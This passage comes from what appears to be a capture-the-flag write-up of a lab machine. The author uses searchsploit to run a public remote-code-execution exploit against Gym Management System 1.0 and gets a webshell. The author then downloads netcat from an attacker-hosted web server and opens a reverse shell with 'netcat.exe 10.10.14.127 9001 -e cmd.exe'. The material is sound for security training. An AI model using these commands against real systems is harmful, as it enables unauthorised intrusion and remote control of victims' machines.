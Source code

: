 ```sh
root@kali:~# searchsploit -m /usr/share/exploitdb/exploits/php/webapps48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/48506.py


root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

I have gained an initial shell which is somewhat unstable and not very helpful for lateral movement so I'm going to upload netcat and grab myself a stable shell.

### Upgrading to a stable shell

```sh
root@kali:/usr/share/windows-resources/binaries# python3 -m http.server 80
```

Using python3 **http.server** I can host a copy of netcat.exe which is located on ``/usr/share/windows-binaries/nc.exe`` on any Kali host.

On the remote machine I can use the following commands to download and execute netcat in order to give myself a reverse shell :

```
C:\xampp\htdocs\gym\upload> powershell -c "curl.exe http://10.10.14.127/nc.exe -o netcat.exe" 
C:\xampp\htdocs\gym\upload> netcat.exe 10.10.14.127 9001 -e cmd.exe
```

After a while listening , I recieve a reverse shell:

![rev](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/rev.png)

## Lateral Movement

While enumerating the box I came across an interesting **.exe** file under ``C:\Users\shaun\Downloads`` :

```
C:\Users\shaun\Documents>cd ../Downloads
cd ../Downloads

C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
```